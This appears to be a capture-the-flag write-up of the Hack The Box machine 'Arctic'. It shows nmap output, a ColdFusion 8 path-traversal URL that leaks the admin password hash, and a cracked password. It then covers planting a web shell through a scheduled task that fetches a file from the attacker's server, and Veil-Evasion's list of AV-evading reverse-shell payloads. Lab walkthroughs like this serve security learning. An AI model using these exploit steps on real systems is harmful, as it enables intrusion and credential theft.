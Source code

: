 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule]https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
=========================================================================
&nbsp;Veil-Evasion | [Version]: 2.28.2
=========================================================================
&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
=========================================================================

&nbsp;Main Menu

&nbsp;51 payloads loaded

&nbsp;Available Commands:

&nbsp;use         	Use a specific payload
&nbsp;info        	Information on a specific payload
&nbsp;list        	List available payloads
&nbsp;update      	Update Veil-Evasion to the latest version
&nbsp;clean       	Clean out payload folders
&nbsp;checkvt     	Check payload hashes vs. VirusTotal
&nbsp;exit        	Exit Veil-Evasion

&nbsp;[menu>>]: list</p>
<p>=========================================================================
&nbsp;Veil-Evasion | [Version]: 2.28.2
=========================================================================
&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
=========================================================================


&nbsp;[*] Available Payloads:

&nbsp;1)	auxiliary/coldwar_wrapper
&nbsp;2)	auxiliary/macro_converter
&nbsp;3)	auxiliary/pyinstaller_wrapper

&nbsp;4)	c/meterpreter/rev_http  
&nbsp;5)	c/meterpreter/rev_http_service
&nbsp;6)	c/meterpreter/rev_tcp   
&nbsp;7)	c/meterpreter/rev_tcp_service
&nbsp;8)	c/shellcode_inject/flatc

&nbsp;9)	cs/meterpreter/rev_http 
&nbsp;10)	cs/meterpreter/rev_https
&nbsp;11)	cs/meterpreter/rev_tcp  
&nbsp;12)	cs/shellcode_inject/base64_substitution
&nbsp;13)	cs/shellcode_inject/virtual

&nbsp;14)	go/meterpreter/rev_http 
&nbsp;15)	go/meterpreter/rev_https
&nbsp;16)	go/meterpreter/rev_tcp  
&nbsp;17)	go/shellcode_inject/virtual

&nbsp;18)	native/backdoor_factory 
&nbsp;19)	native/hyperion         
&nbsp;20)	native/pe_scrambler     

&nbsp;21)	perl/shellcode_inject/flat

&nbsp;22)	powershell/meterpreter/rev_http
&nbsp;23)	powershell/meterpreter/rev_https
&nbsp;24)	powershell/meterpreter/rev_tcp
&nbsp;25)	powershell/shellcode_inject/download_virtual
&nbsp;26)	powershell/shellcode_inject/download_virtual_https
&nbsp;27)	powershell/shellcode_inject/psexec_virtual
&nbsp;28)	powershell/shellcode_inject/virtual

&nbsp;29)	python/meterpreter/bind_tcp
&nbsp;30)	python/meterpreter/rev_http
&nbsp;31)	python/meterpreter/rev_http_contained
&nbsp;32)	python/meterpreter/rev_https
&nbsp;33)	python/meterpreter/rev_https_contained
&nbsp;34)	python/meterpreter/rev_tcp
&nbsp;35)	python/shellcode_inject/aes_encrypt
&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
&nbsp;37)	python/shellcode_inject/arc_encrypt
&nbsp;38)	python/shellcode_inject/base64_substitution
&nbsp;39)	python/shellcode_inject/des_encrypt
&nbsp;40)	python/shellcode_inject/download_inject
&nbsp;41)	python/shellcode_inject/flat
&nbsp;42)	python/shellcode_inject/letter_substitution
&nbsp;43)	python/shellcode_inject/pidinject
&nbsp;44)	python/shellcode_inject/stallion

&nbsp;45)	ruby/meterpreter/rev_http
&nbsp;46)	ruby/meterpreter/rev_http_contained
&nbsp;47)	ruby/meterpreter/rev_https
&nbsp;48)	ruby/meterpreter/rev_https_contained
&nbsp;49)	ruby/meterpreter/rev_tcp
&nbsp;50)	ruby/shellcode_inject/base64
&nbsp;51)	ruby/shellcode_inject/flat

&nbsp;[menu>>]:

</div>
</font>

